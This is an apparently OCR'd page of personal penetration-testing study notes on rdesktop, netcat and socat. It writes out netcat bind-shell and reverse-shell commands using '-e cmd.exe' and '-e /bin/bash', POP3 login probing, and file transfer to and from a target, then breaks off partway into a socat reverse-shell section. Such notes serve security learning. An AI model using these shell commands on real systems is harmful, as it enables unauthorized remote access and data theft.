 #practical tools
    `rdesktop`
        linux remote desktop connection to windows, linux, ect
        `rdesktop <ip> -u [username] -p [password] -g [window size WxH] 1024x768 -x [RDP5] 0x80`
    `netcat`
        hacker Swiss army knife. using `tcp` and `udp`. need `root` privs to
        bind privileged ports.
        `-n` skips dns resolution
        `-v` verbose
        `nc -n -v <ip> <port>`
            to see if port is open on ip
            if this were on port `110` and running `POP3` we could try
            to authenticate with `USER <name>` it would tell us if it is known
            there and then `PASS <password>` to try and login as that user.
        `-l` listen on a port
        `nc -nvlp 4444`
            sets up listener on port 4444. can add `> file.txt` to redirect any
            connection data to a file.
        `nc -nv <ip> <port>`
            connects to listener on ip and port
        `nc -nv <ip> <port> < full/path/to/file.txt`    
            will send `file.txt` over netcat
            can transfer both text and bin files with netcat
            *you might need to send your file to a tgt over `netcat` and 
            redirect the connection on tgt to a file IOT get it on the tgt
        `-e`
            * note: for catching a callback on linux you need to allow the port
                `sudo ufw allow <port>/tcp`
            * on raspberry pi to send a nc shell you need to remove nc and
              reinstall `netcat`
            will redirect the input, output, or error form an executable to
            `netcat` over a tcp or udp port. this can be used to bind `cmd.exe`
            to a `netcat` port so when we remote login to that port we get a 
            shell on windows.
                #netcat bind shell
                windows: has public ip
                linux: no public ip
                windows: `nc -nlvp 4444 -e cmd.exe`
                linux: `nc -nv <ip> 4444`
                this will give linux a cmd shell on tgt box. no creds needed.
                # netcat reverse shell
                windows: has public ip
                linux: has no public ip
                windows: `nc -nlvp 4444`
                linux: `nc -nv <ip> 4444 -e /bin/bash`
                gives windows a bash shell
               
    #Socat
        makes 2 bidirectional byte streams
        `socat - TCP4:<ip>:<port>`
            `-` takes standard input and give to remote host
        `socat TCP4-LISTEN:443 STDOUT`
            set up listener
            #file transfer
                linux: `socat TCP4-LISTEN:443, fork file:myfile.txt`
                    when a connection is made, `fork` will make a child process
                    of `file:myfile.txt` to transfer the file over the
                    connection
                windows: `socat TCP4:<ip>:443 file:rename_myfile.txt,create`
            #reverse shell
                windows: `socat -d -d TCP4-LISTEN:443 STDOUT`
                    sets up listener with `-d -d` for increase verbosity